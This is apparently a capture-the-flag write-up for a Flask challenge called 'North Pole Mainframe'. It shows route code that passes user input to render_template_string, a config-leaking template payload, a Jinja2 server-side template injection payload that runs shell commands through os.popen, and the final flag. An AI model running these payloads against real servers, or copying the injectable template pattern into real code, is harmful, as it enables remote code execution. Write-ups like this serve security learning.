


## North Pole Mainframe  


In the backend, we can see that the webpage has an SSTI vulnerability in both level 1 and 2.  

Part 1 of the flag is stored in the app `config`.  

```python
app.config['l3v3l1_f1ag'] = 'REDACTED'
...

@app.route("/level1")
def level1():
    content = render_template_string(request.args.get("name", ""))
    return render_template("level1.html", name=content)


@app.route("/level2", methods=["GET", "POST"])
def level2():
    result = ""
    if request.method == "POST":
        name = request.form.get("name", "")
        if name:
            template = f'''<p class="text-xl text-white mt-4 p-4 bg-gray-900 rounded-lg shadow-inner">
                Our records show that {name} is on the nice list!
            </p>'''
            result = render_template_string(template)

    return render_template("level2.html", result=result)
```

To get part 1 of the flag, we just have to submit `{{ config['l3v3l1_f1ag'] }}` in either level.  



To find part 2, we can first inspect the directory structure of the app. We can use this simple payload to get RCE on the webpage.  

```python
self.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()
```

Running the payload will show that there is a flag file in the current directory.  



We can read the file to get the full flag.  


Flag: `YBN25{7h3_l1nk_wa5_n0t_mean7_t0_b3_pub1ic}`